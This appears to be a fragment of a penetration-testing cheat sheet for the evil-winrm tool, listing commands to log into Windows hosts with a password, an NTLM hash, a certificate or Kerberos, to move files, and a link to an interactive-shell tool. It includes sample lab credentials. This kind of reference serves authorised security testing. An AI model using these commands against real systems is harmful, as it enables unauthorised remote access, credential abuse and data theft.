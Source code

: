 ```sh
evil-winrm  -i $t -u Caroline.Robinson -p 'Pentest_123456789'
```

- Connect with a hash:
```sh
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -H <NTLM_HASH>
```

- Connect with a certificate:
```sh
evil-winrm -i <IP_ADDRESS> -S -c <CERTIFICATE_FILE> -k <KEY_FILE>
```

+ Connect with Kerberos authentication:
```sh
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -r <DOMAIN> -k
```

- Upload a file:
```sh
upload <LOCAL_FILE_PATH> <REMOTE_FILE_PATH>
```

- Download a file:
```sh
download <REMOTE_FILE_PATH> <LOCAL_FILE_PATH>
```

- Connect with a certificate : 
```sh
evil-winrm -S -i 10.10.10.103 -u amanda -p Ashare1972 -c certnew.cer -k private.key
```
- Interactive shell : 
https://github.com/antonioCoco/ConPtyShell
